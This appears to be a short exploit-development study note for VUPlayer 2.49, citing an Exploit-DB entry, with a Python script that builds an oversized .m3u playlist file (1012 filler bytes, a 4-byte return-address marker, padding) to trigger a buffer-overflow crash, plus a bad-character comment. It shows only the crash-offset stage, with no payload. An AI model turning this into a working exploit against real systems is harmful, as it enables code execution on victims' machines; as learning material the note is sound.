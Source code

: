 # VUPlayer 2.49

Downloaded from: https://www.exploit-db.com/exploits/40018

## Initial Crash
```py
import sys
import struct
import os

crash_file = "vuplayer-dep.m3u"

#\x00\x09\x0a\x0d\x1a
fuzz = "A" * 1012
fuzz += "B" * 4
fuzz += "C" * (3000 - len(fuzz))

makedafile = open(crash_file, "w")
makedafile.write(fuzz)
makedafile.close()
```
